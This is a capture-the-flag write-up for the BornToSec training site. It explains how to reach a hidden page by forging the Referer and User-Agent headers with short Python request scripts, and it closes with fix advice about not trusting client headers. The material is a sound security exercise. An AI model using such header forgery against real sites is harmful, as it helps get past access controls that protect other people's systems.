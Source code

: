# How

Clicking on the `BornToSec` copyright mention at the bottom of the page, you're redirected to an hidden page

Pressing CTRL+U to see the source code, you can toggle on `Line wrap`, scroll down at the bottom of the page's code,
and you will be able to see :

```html
<!--
You must come from : "https://www.nsa.gov/".
-->
```

This hints that you must come from the NSA website to access the hidden page, what does that mean ?

When your browser makes HTTP requests, it sends a `Referer` header, its value represents the URL that brought you where you are now.

Changing it with this Python script :

```py
import requests

headers = {
    'Referer': 'https://www.nsa.gov/'
}

resp = requests.get('http://localhost:4242/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f', headers=headers)

print(resp.text)
```

Gives the output source, which now contains this :

```
Let's use this browser : "ft_bornToSec". It will help you a lot.
```

This time, we must change the `User-Agent` header to `ft_bornToSec` to access the hidden page.

```py
import requests

headers = {
    'Referer': 'https://www.nsa.gov/',
    'User-Agent': 'ft_bornToSec'
}

resp = requests.get('http://localhost:4242/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f', headers=headers)

print(resp.text)
```

This time giving us the flag.

# Fix

- Don't trust request headers, they can be edited by the client.
- Use a session cookie to block access to sensitive pages.